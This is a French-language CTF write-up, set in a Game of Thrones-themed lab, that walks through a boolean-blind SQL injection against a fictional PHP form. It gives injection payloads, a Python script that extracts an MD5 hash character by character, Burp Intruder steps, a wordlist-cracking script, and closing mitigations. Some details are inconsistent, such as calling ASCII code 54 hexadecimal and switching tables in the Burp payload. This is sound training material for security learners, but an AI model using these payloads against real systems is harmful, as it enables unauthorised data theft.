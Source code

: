 ```yaml
---
title: 6 - Injection SQL Boolean Blind & Hash MD5 Faible
next: "/write-ups/wu7"
prev: "/write-ups/wu5"
---
```


# 🏰 CTF - Injection SQL Boolean Blind & Hash MD5 Faible

## 🎯 Objectif
Bravo ! Tu es dans **Castral-Roc**, dans la salle du mestre où sont stockées des **informations confidentielles des Lannister**. Parmi elles, un livre recensant **les alliés et espions infiltrés** dans les familles de Westeros.

**Mission** : Trouver **l’espion infiltré chez les Stark à Winterfell** et récupérer **son hash MD5**.

### 🔹 Informations de la table `allies`
- `username` : Nom de l’individu (hashé en MD5)
- `relation` : **famille / allié / espion / ennemi**
- `localisation` : Lieu d'opération

📌 **Problèmes de sécurité** :
- **Injection SQL Boolean Blind (`CWE-89`)** permettant d’extraire les données cachées.
- **Stockage MD5 (`CWE-328`)** permettant une attaque par dictionnaire.

📌 **Flag 1** : Le **hash MD5** du nom de l’espion infiltré chez les Stark à Winterfell.
📌 **Flag 2** : Le **nom de l’espion en clair** (`orland mertens`).

---

## ⚙️ Environnement
- **Cible :** `http://lannister.castral-roc.lannisport.south/entourage_lannister.php`
- **Base de données :** `lannisport_db`
- **Données sensibles :** Table `allies`
- **Wordlist fournie** : Liste des 5000 personnes du château

---

## 🚀 Étape 1 : Vérifier la vulnérabilité SQL
Dans le champ **Nom** du formulaire, entre :
```sql
' OR 1=1 #
```
✅ **Si la réponse est `L’utilisateur est un allié`, alors l’injection SQL fonctionne.**


---

## 🔍 Étape 2 : Tester si un espion est infiltré chez les Stark
Dans le champ **Nom**, entre :
```sql
' OR (SELECT COUNT(*) FROM allies WHERE relation='espion' AND localisation='Winterfell') > 0 #
```
✅ **Si la page affiche `L’utilisateur est un allié`, alors un espion est bien présent.**


---

## 🕵️ Étape 3 : Exfiltrer le hash MD5 de l’espion (Boolean Blind)
Nous allons **extraire son hash MD5 caractère par caractère** en utilisant **ASCII() et SUBSTRING()**.

Dans le champ **Nom**, entre :
```sql
' OR (SELECT ASCII(SUBSTRING(username, 1, 1)) FROM allies WHERE relation='espion' AND localisation='Winterfell') = 54 #
```
✅ **Si la page affiche `L’utilisateur est un allié`, alors le premier caractère du hash est `54` (hexadécimal).**

Répète en changeant `1, 1` par `2, 1`, `3, 1`… jusqu'à obtenir le hash MD5 complet !


---

## ⚡ Étape 4 : Automatiser l’extraction avec Python
Pour éviter une extraction manuelle, utilise ce script **Python** :
```python {filename="extract_md5.py"}
import requests

URL = "http://lannister.castral-roc.lannisport.south/entourage_lannister.php"
TRUE_RESPONSE = "L’utilisateur est un allié"
MD5_HASH = ""

for i in range(1, 33):  # Un hash MD5 fait 32 caractères hexadécimaux
    for hex_code in "0123456789abcdef":  # Valeurs hexadécimales
        payload = f"' OR (SELECT SUBSTRING(username, {i}, 1) FROM allies WHERE relation='espion' AND localisation='Winterfell') = '{hex_code}' -- "
        data = {"username": payload}
        response = requests.post(URL, data=data)

        if TRUE_RESPONSE in response.text:
            MD5_HASH += hex_code
            print(f"[+] Caractère {i} trouvé : {hex_code}")
            break

print(f"\n🚀 Hash MD5 de l'espion : {MD5_HASH}")
```

✅ **Exécute le script :**
```bash
python3 extract_md5.py
```
🚀 **Il affichera le hash MD5 complet !**


avec burp : 




BURP : 
1, ouvrir burp, et le browser intégré avec le proxy, 

2, faire requete sur http://lannister.castral-roc.lannisport.south/entourage_lannister.php

pour trouver qqun, par exemple tyrion

3, Envoyer la requete dans l'Intruder 

Mettre ensuite l'attaque en cluster bomb.

après le user on met des payloads : 

username=' AND (SELECT

SUBSTRING(password,§position_carac§,1) FROM users WHERE

relation='espion')=§carac§, ,§position_carac§

4, on va ensuite dans payloads, pour le assigner des valeurs à §position_carac§ et §carac§

pour §position_carac§ on peut entrer des nombres de 1 à 20 et pour §carac§ on peut entrer des lettres de a à z, des lettres de A à Z, et des nombres de 0 à 9

Lancer l'attaque avec start attack

Tirer ensuite pas longueur et on obtient sur chaque ligne un lettre du hash

---

## 🔑 Étape 5 : Trouver le nom de l’espion via une wordlist
Le hash MD5 de l’espion doit être comparé aux 5000 noms fournis.

### 🔹 Utilisation d’un script Python pour comparer le hash
```python
import hashlib

MD5_TARGET = "54cc047eb12722d574b528af105d9e21"  # Hash obtenu
WORDLIST = "names_5000.txt"

with open(WORDLIST, "r", encoding="utf-8") as file:
    for name in file:
        name = name.strip().lower()
        hashed_name = hashlib.md5(name.encode()).hexdigest()

        if hashed_name == MD5_TARGET:
            print(f"[+] Nom de l'espion trouvé : {name}")
            break
```

✅ **Exécute le script :**
```bash
python3 crack_md5.py
```
🚀 **Il affichera `orland mertens` !**


---

## 🏆 Validation du CTF
🚀 **Félicitations, tu as terminé la mission !** 🔥

📌 **Flag 1** : `MD5 du nom de l’espion`
📌 **Flag 2** : `orland mertens`


---

## 🔒 Mitigation & Sécurisation
- **Éviter l’injection SQL** → Utiliser **des requêtes préparées** (`mysqli_stmt_bind_param`).
- **Ne pas stocker les mots de passe / noms sensibles en MD5** → Utiliser `bcrypt`.
- **Limiter les tentatives de requêtes Boolean Blind** → Protection par `fail2ban` et `CAPTCHA`.

---

## 🎯 Conclusion
✔ **Exploitation d’une injection SQL Boolean Blind (`CWE-89`).**
✔ **Exfiltration du hash MD5 de l’espion infiltré chez les Stark.**
✔ **Brute-force du hash MD5 avec une wordlist pour retrouver `orland mertens`.**

🚀 **CTF réussi ! Prêt pour la prochaine mission ?** 🔥